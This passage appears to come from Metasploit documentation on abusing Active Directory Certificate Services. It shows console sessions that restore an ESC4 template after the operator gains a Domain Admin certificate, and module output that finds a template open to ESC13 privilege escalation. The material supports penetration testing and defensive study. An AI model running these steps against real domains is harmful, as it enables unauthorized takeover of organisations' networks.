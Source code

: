 ```msf
msf6 auxiliary(admin/dcerpc/icpr_cert) > previous 
msf6 auxiliary(admin/ldap/ad_cs_cert_template) > set TEMPLATE_FILE /home/smcintyre/.msf4/loot/20230505083802_default_172.30.239.85_windows.ad.cs.te_593597.json
TEMPLATE_FILE => /home/smcintyre/.msf4/loot/20230505083802_default_172.30.239.85_windows.ad.cs.te_593597.json
msf6 auxiliary(admin/ldap/ad_cs_cert_template) > run
[*] Running module against 172.30.239.85

[+] Successfully bound to the LDAP server!
[*] Discovering base DN automatically
[*] 172.30.239.85:389 Getting root DSE
[+] 172.30.239.85:389 Discovered base DN: DC=daforest,DC=com
[+] Read certificate template data for: CN=ESC4-Test,CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=daforest,DC=com
[*] Certificate template data written to: /home/smcintyre/.msf4/loot/20230505083942_default_172.30.239.85_windows.ad.cs.te_000095.json
[+] The operation completed successfully!
[*] Auxiliary module execution completed
msf6 auxiliary(admin/ldap/ad_cs_cert_template) >
```

At this point the certificate template's configuration has been restored and the operator has a certificate that can be
used to authenticate to Active Directory as the Domain Admin.

# Exploiting ESC13
To exploit ESC13, we need to target a certificate that has an issuance policy linked to a universal group in Active
Directory. Unlike some of the other ESC techniques, successfully exploiting ESC13 isn't necessarily guaranteed to yield
administrative privileges, rather the privileges that are gained are those of the group which is linked to by OID in the
certificate template's issuance policy. The `auxiliary/gather/ldap_esc_vulnerable_cert_finder` module is capable of
identifying certificates that meet the necessary criteria. When one is found, the module will include the group whose
permissions will be included in the resulting Kerberos ticket in the notes section. In the following example, the
ESC13-Test template is vulenerable to ESC13 and will yield a ticket including the ESC13-Group permissions.

```
msf6 auxiliary(gather/ldap_esc_vulnerable_cert_finder) > run
...
[+] Template: ESC13-Test
[*]   Distinguished Name: CN=ESC13-Test,CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=collalabs1,DC=local
[*]   Manager Approval: Disabled
[*]   Required Signatures: 0
[+]   Vulnerable to: ESC13
[*]   Notes: ESC13 groups: ESC13-Group
[*]   Certificate Template Enrollment SIDs:
[*]     * S-1-5-21-3474343397-3755413101-2031708755-512 (Domain Admins)
[*]     * S-1-5-21-3474343397-3755413101-2031708755-513 (Domain Users)
[*]     * S-1-5-21-3474343397-3755413101-2031708755-519 (Enterprise Admins)
[+]   Issuing CA: collalabs1-SRV-ADDS01-CA (SRV-ADDS01.collalabs1.local)
[*]     Enrollment SIDs:
[*]       * S-1-5-11 (Authenticated Users)
[*]       * S-1-5-21-3474343397-3755413101-2031708755-519 (Enterprise Admins)
[*]       * S-1-5-21-3474343397-3755413101-2031708755-512 (Domain Admins)
```
